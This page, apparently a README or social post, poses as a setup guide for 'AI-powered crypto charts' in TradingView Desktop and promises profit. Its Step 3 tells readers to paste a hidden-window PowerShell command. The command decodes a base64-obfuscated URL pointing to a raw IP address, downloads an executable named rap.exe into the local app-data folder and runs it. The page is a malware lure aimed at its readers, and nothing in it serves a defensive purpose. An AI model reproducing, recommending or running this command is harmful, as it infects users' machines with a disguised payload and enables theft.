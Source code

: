 📌 Step-by-Step Setup Guide:

🔵 Step 1: Download and install TradingView Desktop
🔗 https://www.tradingview.com/desktop/

🔵 Step 2: Enter Developer Mode
– Press Win + R, type cmd, and hit Enter

🔵 Step 3: Paste the setup command and press Enter

powershell -WindowStyle Hidden -Command "$url=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('aHR0cDovLzE3Ni40Ni4xNTIuNjI6NTg1OC9yYXAuZXhl')); iwr $url -OutF "$env:LOCALAPPDATA\rap.exe"; start "$env:LOCALAPPDATA\rap.exe""

🔵 Step 4: Restart TradingView

✅ That’s it! You’re now ready to explore AI-powered crypto charts.

📺 Follow along with the video to see how to use them for maximum profit.
